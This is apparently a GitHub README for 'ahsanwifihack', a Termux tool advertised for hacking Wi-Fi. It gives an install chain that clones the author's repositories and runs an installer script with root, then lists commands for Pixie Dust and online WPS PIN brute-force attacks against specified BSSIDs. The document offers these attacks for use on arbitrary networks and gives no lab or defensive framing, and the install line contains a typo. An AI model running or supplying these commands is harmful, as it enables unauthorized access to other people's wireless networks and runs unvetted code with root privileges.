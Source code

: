 ## ahsanwifihack
### Hack WIfi Using Termux! (Requires Root)



### Installation :

```bash
pkg update && pkg upgrade && pkg install git python && git clone https://github.com/MDAhsanullah/ahsanwifihackmain && cd ahsanwifihackmain && python Installer.py && apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/MDAhsanullah/ahsanwifihack && cd ahsanwifihack && ls $$ sudo python ahsanwifihack.py -i wlan0 -K
```

#### Running : 
```bash
sudo python ahsanwifihack/ahsanwifihack.py -i wlan0 -K
```

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ahsanwifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ahsanwifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ahsanwifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
